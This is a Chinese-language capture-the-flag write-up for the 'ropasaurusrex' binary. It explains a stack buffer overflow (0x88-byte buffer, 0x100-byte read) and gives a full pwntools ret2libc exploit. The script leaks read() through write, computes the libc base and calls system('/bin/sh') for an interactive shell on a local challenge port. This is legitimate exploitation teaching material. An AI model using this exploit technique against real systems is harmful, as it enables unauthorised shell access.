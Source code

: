 buf大小只有0x88,但是却允许被读入0x100的字节大小，这明显可以造成缓冲区溢出。



```
wings@sw:~/桌面/Rop$ file ./ropasaurusrex
./ropasaurusrex: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=96997aacd6ee7889b99dc156d83c9d205eb58092, stripped
```

我们还知道的一点是，程序是32位，所以我们不需要像第一个题那样去找寄存器 gadget。

在main函数中有一个write函数，我们可以通过rop，来进行信息泄漏。所以攻击思大概是：

构造payload leak 内存中的一个函数地址，比如 read()

<br>

**计算libc base**

构造payload get shell



```
from pwn import *
debug = 1
elf = ELF('./ropasaurusrex')
if debug == 1:
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88
context.log_level = 'debug'
#p = remote(args.host, args.port)
#p = process('./ropasaurusrex')
p = remote('127.0.0.1',10002)
payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']
payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' # cont
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)
p.sendline('ls')
p.interactive()
```
